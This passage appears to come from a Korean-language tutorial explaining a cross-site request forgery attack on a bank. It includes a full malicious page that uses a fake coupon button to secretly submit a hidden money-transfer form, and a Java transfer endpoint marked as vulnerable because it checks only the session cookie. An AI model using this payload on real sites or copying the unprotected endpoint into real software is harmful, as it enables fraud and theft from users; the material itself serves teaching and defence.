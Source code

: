 **2단계: 해커가 악성 웹사이트 준비**

```html
<!-- 해커의 악성 사이트 (http://evil-site.com) -->
<!DOCTYPE html>
<html>
  <head>
    <title>무료 쿠폰! 클릭하세요!</title>
  </head>
  <body>
    <h1>🎁 축하합니다! 무료 쿠폰 당첨!</h1>
    <p>아래 버튼을 클릭하면 쿠폰을 받을 수 있습니다!</p>

    <!-- 숨겨진 악성 폼 -->
    <form
      id="hiddenTransfer"
      action="https://mybank.com/transfer"
      method="POST"
      style="display:none;"
    >
      <input name="toAccount" value="해커계좌번호123456" />
      <input name="amount" value="1000000" />
      <input name="memo" value="기부금" />
    </form>

    <!-- 사용자가 보는 가짜 버튼 -->
    <button onclick="stealMoney()">🎁 쿠폰 받기</button>

    <script>
      function stealMoney() {
        // 사용자가 쿠폰 버튼을 클릭하면...
        alert("쿠폰을 확인 중입니다...");

        // 실제로는 은행 이체 요청을 보냄!
        document.getElementById("hiddenTransfer").submit();

        // 사용자는 모름
        setTimeout(() => {
          alert("죄송합니다. 쿠폰이 모두 소진되었습니다.");
        }, 1000);
      }
    </script>
  </body>
</html>
```

**3단계: 취약한 은행 서버**

```java
// ❌ CSRF에 취약한 이체 기능
@PostMapping("/transfer")
public String transfer(@RequestParam String toAccount,
                      @RequestParam int amount,
                      @CookieValue("BANK_SESSION") String session) {

    // 세션만 확인하고 바로 이체 처리
    if (sessionService.isValid(session)) {
        transferService.transfer(getCurrentUser(session), toAccount, amount);
        return "transfer-success";
    }

    return "redirect:/login";
}
```
